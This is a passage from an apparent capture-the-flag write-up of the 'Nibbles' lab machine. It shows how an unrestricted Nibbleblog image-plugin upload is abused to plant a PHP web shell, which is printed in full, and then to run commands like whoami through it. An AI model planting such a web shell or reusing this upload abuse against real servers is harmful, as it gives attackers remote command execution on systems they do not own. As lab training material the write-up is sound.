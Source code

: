 Now that I have the possibility to upload files to the server, I am going to make some tests, first I try to upload an image and it does not inform me the path where the image is being hosted. Thanks to the previous enumeration that I made with `wfuzz` I can search in the folders that I found and in one of them is the image that I uploaded. Having known the path and knowing that I can upload images, I am going to try to create a malicious file to try to upload it to the web server.

```html
# Plugins --> My image
# http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.jpg
```

<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As I know that the project is developed in **PHP**, I'm going to create a malicious file that will allow me to execute commands remotely. When uploading it through the **Web**, I get some error messages but if I access the path where the files are hosted, it exists (**with a different name**), so there are no security measures in the code to prevent the upload of malicious content. I try some basic commands and get the results through the browser.

```bash
nvim pwn3d.php

# http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
# http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=hostname%20-I
```

> **pwn3d.php**:

```php
<?php echo "<pre>" . shell_exec($_REQUEST["cmd"]) . "</php>"; ?>
```

<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
